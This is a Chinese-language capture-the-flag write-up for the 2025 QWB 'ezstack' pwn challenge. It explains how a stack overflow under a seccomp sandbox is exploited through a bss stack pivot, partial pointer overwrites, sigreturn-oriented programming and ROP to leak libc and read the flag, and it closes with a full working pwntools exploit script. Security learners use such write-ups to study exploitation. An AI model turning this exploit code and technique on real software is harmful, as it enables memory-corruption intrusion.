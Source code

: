 ```yaml
---
title: 2025qwb_ezstack
date: 2025-10-24 15:07:49
categories: 2025-qwb
tags: stack
---
```


> 这是出的比较迟的题目，结束的时候还有385，当时比赛第二天在看这题，但是没做出来

漏洞点很明显，就是一个很大的栈溢出，另外可以将`byte ptr[rbp-8]`的值改为我们输入的长度
但是题目也限制了沙箱，顺便推一下我写的沙箱工具[ceccomp](https://github.com/dbgbgtf1/Ceccomp)XD
![seccomp](./2025qwb-ezstack/seccomp.png)

# 利用手法

赛后看了[星盟的WP](https://mp.weixin.qq.com/s?__biz=MzU3ODc2NTg1OA==&mid=2247494473&idx=1&sn=285d1900b6b4779cdf8a86b380e7fe8a&chksm=fc7306b38655bd891e1f2900c0c01edf2f4210947d0f2842b0a3e9c045b750c70e30c22599f0&mpshare=1&scene=23&srcid=10219S6e8zuF53TzTqXTGFcn&sharer_shareinfo=00bd8158b53f3dd6f9c313bda7fe775e&sharer_shareinfo_first=e7859b1e7b94c840c3a762d95b3f5cef#rd)，大致思路是通过start来在bss区留下libc的rx段指针用来覆盖，在通过`libc_start_main`附近的一个`mov eax, edx; syscall`的gadget来利用
我当时没想到可以用start来留下指针，在考虑用stdin，stdout等指针利用

![syscall](./2025qwb-ezstack/syscall.png)

于是思路就很清晰了，栈迁移到bss，在bss上用两次start留下可覆写的`libc_start_main`附近的指针(因为需要用到两次)
构造好两次用来srop的Sigframe和返回地址后
在一次的read只写入0xf个字节，并跳转到先前准备好的`mov eax, edx; syscall`来执行sigreturn系统调用(sigreturn调用号为0xf)

在第一次的sigreturn将rip设置为随便一个`ret`
并让rsp设置为先前准备好的另一个`libc_start_main`覆写得到的`syscall`地址(也就是两个指针一个取`mov eax, edx; syscall`，另一个取`syscall`)
rax设为1，rdi设为1，rsi设为got表上read或是其他有libc的地址，rdx设为0xf

这样就可以执行一次write获取libc地址，至此最难的部分就结束了。
前面说到rdx设为0xf是为了让write的返回值rax也为0xf，由于我们找的这个`syscall`比较特殊，在`syscall`后会jmp到原来的位置，继续执行下一次`syscall`
这里就可以让第二次syscall执行sigreturn，这样就可以用到第二个准备的srop的Sigframe了，然后只要再回到start走rop读取栈上的环境变量即可

![flag](./2025qwb-ezstack/flag.png)

```python
from pwn import *
from pwnlib.rop import gadgets

context(
    terminal=['kitty'],
    os='linux',
    arch='amd64',
    log_level='debug',
)

main = 0x4015A8
main_ = 0x4015FB
start = 0x401170

rbp = 0x404038
bss = 0x404800
ret = 0x40161F
cnt = 0x404018

libc = ELF('./libc.so.6')
elf = ELF('./chall')
io = remote('127.0.0.1', 9000)

payload = p64(0x0) * 3 + p64(0x404000) + p64(0x404800) + p64(main_)
io.send(payload)
sleep(0.1)
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x0) + p64(start)
io.send(payload)
sleep(0.1)
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x0) + p64(start)
io.send(payload)
sleep(0.1)
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x4046d0) + p64(main_)
io.send(payload)
sleep(0.1)
frame = SigreturnFrame()
frame.rip = start
frame.rsp = 0x404800
frame.rbp = 0x404800
frame['uc_stack.ss_flags'] = 0x404000
frame['uc_stack.ss_size'] = 0x404600
frame.r8 = main_
payload = bytes(frame)
io.send(payload)
sleep(0.1)
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x4047D0) + p64(main_)
payload = payload.ljust(0xc8, b'\x00')
# 1/16 here
payload += p16(0x6db4)
io.send(payload)
sleep(0.1)
frame = SigreturnFrame()
frame.rax = 0x1
frame.rdi = 0x1
frame.rsi = 0x403fc0
frame.rdx = 0xf
frame.rsp = 0x4046A8
frame.rbp = 0x4046A8
frame.rip = ret
frame['uc_stack.ss_flags'] = 0x404000
frame['uc_stack.ss_size'] = 0x404798
frame.r8 = main_
payload = bytes(frame)
io.send(payload)

sleep(0.1)
# 1/16 here, but it share the same 1/16 with the earlier one
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x4047a0) + p64(main_) + p16(0x6db2)
io.send(payload)

sleep(0.1)
payload = p64(main_) + b'a' * 0x7
io.send(payload)

# io.recvuntil(b'\n')
# io.recvuntil(b'\n')
# io.recvuntil(b'\n')
# this is for local test
libc.address = u64(io.recv(0x8)) - 0x114840
io.recv(0x7)
print(hex(libc.address))

gadgets = ROP(libc)
rax = gadgets.rax.address
rdi = gadgets.rdi.address
rsi = gadgets.rsi.address
rbp = gadgets.rbp.address
rdx_rbx = 0x904a9 + libc.address
syscall = 0x91316 + libc.address

sleep(0.1)
rop = flat(
    rax, 0x1,
    rdi, 0x1,
    rsi, libc.address - 0x2228,
    rdx_rbx, 0x8, 0x0,
    rbp, 0x404800,
    syscall,
    main_,
)
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x0) + rop
io.send(payload)

stack = (u64(io.recv(0x8)) &~ 0xfff) + 0xf00
print(hex(stack))
sleep(0.1)
rop = flat(
    rax, 0x1,
    rdi, 0x1,
    rsi, stack,
    rdx_rbx, 0x100, 0x0,
    syscall,
    main_,
)
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x404800) + rop
io.send(payload)

# print(io.recvall())
io.interactive()
```

